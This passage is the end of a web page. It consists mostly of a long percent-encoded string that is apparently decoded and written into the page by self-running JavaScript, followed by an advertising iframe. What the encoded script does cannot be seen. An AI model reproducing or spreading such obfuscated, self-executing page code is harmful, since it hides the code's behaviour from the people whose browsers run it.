66%63%3d%26%2a%25%39%5a%64%6e%64%74%41%76%67%3c%2b%58%39%1b%6a%64%60%79%1b%6b%68%75%18%59%66%64%66%66%7b%1d%78%66%76%6b%6a%6a%77%60%65%62%62%6e%71%7f%1b%63%68%77%18%67%6a%69%77%6b%65%71%79%0e%0f%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%60%6a%74%77%6b%6b%1d%65%69%19%77%61%61%76%65%1b%6b%57%79%71%7f%1b%72%66%67%77%61%75%66%74%24%17%56%6b%1b%6f%76%76%74%18%60%69%67%6b%7f%1d%7a%63%6a%74%64%18%6c%60%69%6c%79%17%76%6e%62%66%63%19%59%76%64%1b%5a%62%79%60%57%67%70%1b%58%72%59%60%6f%5a%68%63%60%16%62%6b%1b%60%6a%74%64%75%69%6b%7b%2f%32%28%69%39%0c%0e%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%3c%68%19%64%6f%57%78%72%33%25%6c%2e%29%18%74%64%73%77%23%68%60%64%77%64%75%19%74%65%71%77%2e%63%7a%71%6b%67%27%39%46%6b%68%70%75%62%6d%6f%71%16%21%66%68%69%71%3f%19%35%2b%38%27%1d%32%5a%19%64%6d%59%77%76%3e%25%79%60%70%62%25%0c%0d%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%6f%73%6b%61%3c%25%2a%26%3a%55%68%68%64%78%45%7b%65%3d%28%58%3a%3c%2a%6b%39%03%01%1d%16%1b%19%1b%19%18%18%3d%28%67%6f%7d%3f%03%0d%19%1b%19%18%3c%2a%61%68%65%7b%60%78%39%0c%0d%0c%0e%18%19%1b%1b%32%78%62%78%62%69%77%19%74%71%69%66%3e%28%7b%60%7e%77%2a%6d%58%72%59%76%64%75%6f%67%71%28%39%0c%0d%19%18%18%19%1b%1b%16%17%21%2e%20%26%4f%60%6a%6f%46%68%6b%7f%2c%24%24%64%6d%62%66%6f%20%63%76%69%69%7b%64%65%69%19%23%20%18%7f%0c%0d%1b%16%17%1d%16%1b%19%1b%19%18%18%19%71%5a%78%17%21%7a%66%6c%6b%19%3d%18%25%23%25%32%6e%6f%66%76%75%39%27%21%3f%0c%0d%1b%16%17%1d%16%1b%19%1b%19%18%18%19%27%23%28%69%6e%6a%72%27%22%2b%59%68%69%66%69%6a%2f%21%7a%66%6c%6b%20%3f%0d%0f%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%25%77%66%63%67%2f%7c%5a%6d%23%25%20%23%26%6e%72%42%6e%6f%61%20%20%29%75%65%70%75%23%22%2f%25%72%6b%6f%64%64%75%20%21%3e%0e%0d%16%17%1d%16%1b%19%1b%19%18%18%19%1b%67%65%68%70%63%66%6b%77%2b%65%70%64%64%44%65%62%68%57%69%65%23%27%67%6b%69%72%25%2f%30%08%00%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%57%6f%64%75%75%20%26%4d%62%69%61%17%62%65%6b%60%66%65%19%26%20%3c%0e%00%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%2a%7b%60%63%6b%2b%75%64%6d%6b%73%66%23%2f%30%08%00%1b%19%1b%19%18%18%19%1b%7e%2f%30%08%00%1b%19%1b%19%3c%2b%76%64%75%6f%67%71%34%0e%0f%0e%0f%0d%0e%19%1b%1b%16%33%72%69%75%60%6b%75%18%59%76%72%69%69%32%23%57%74%70%69%66%26%18%75%72%6b%6b%32%23%7a%66%71%77%2a%6e%59%73%5a%74%69%79%64%66%77%27%1b%76%76%67%3c%25%63%7a%7b%6d%79%3d%2a%28%75%6b%6b%6b%74%63%7b%69%2f%6d%62%75%63%74%66%2a%60%68%28%68%6a%71%57%28%76%77%77%65%59%6c%28%6e%6b%65%70%24%6d%76%25%3b%3c%2b%76%64%75%6f%67%71%34%0e%0f%3f%2a%66%6b%65%72%39%03%01%08%00%3f%2a%63%75%6d%6c%3b21956964%35%37%35%37%36%36%37' + unescape('%27%29%29%3b'));
// -->
</script>
<noscript><i>Javascript required</i></noscript>
<center><iframe data-aa="1507941" src="//ad.a-ads.com/1507941?size=336x280" scrolling="no" style="width:336px; height:280px; border:0px; padding:0; overflow:hidden" allowtransparency="true"></iframe></Center>
</html>
